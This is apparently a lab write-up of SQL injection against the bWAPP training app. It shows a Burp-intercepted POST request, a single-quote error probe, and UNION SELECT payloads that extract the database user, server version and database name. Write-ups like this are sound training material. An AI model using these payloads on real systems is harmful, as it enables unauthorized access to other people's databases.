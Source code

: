 ## Page Content:

When we enter the page we see that it has a drop-down menu with movie names in it and beside it a "GO" button.
This means that since we have no way of entering a payload via an input field, we have to use burpsuite to intercept the request and send the payload that we want.

## First Trial:

When we press the "GO" button the request is intercepted and we are able to see the following information about the request:

>POST /bWAPP/sqli_13.php HTTP/1.1
>Host: 10.0.2.15
>User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
>Accept-Language: en-US,en;q=0.5
>Accept-Encoding: gzip, deflate
>Content-Type: application/x-www-form-urlencoded
>Content-Length: 17
>Origin: http://10.0.2.15
>Connection: close
>Referer: http://10.0.2.15/bWAPP/sqli_13.php
>Cookie: security_level=0; PHPSESSID=c7c802af852ff04134b2936991eba585
>movie=1&action=go

We are concerned with the last line which is the body of the request. So, we can inject the payload we wnt to execute there.

So, we can add a single quote to see the behaviour of the webpage; as follows:

> movie=1'&action=go

We get the following error message:

>Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1

Which means that we are walking in the right path.

## Second Trial:

We can then look for the user of the database using the following alterations to the body of the request:

> movie=100 union select 1,user(),3,4,5,6,7-- #&action=go

We get the following respose crrying the user of the database:

> root@localhost

## Third Trial:

I tried getting the table names and the databases they belong to but the information that I got were not useful:

>information_schema   CHARACTER_SETS

## Fourth Trial:

Then I tried getting the version of the server and the database name:

> movie=100 union select 1,version(),database(),4,5,6,7-- #&action=go

The output that I got was the following:

+ The version:  5.0.96-0ubuntu3
+ The database: bWAPP

That is the most that we can get out of this vulnerability.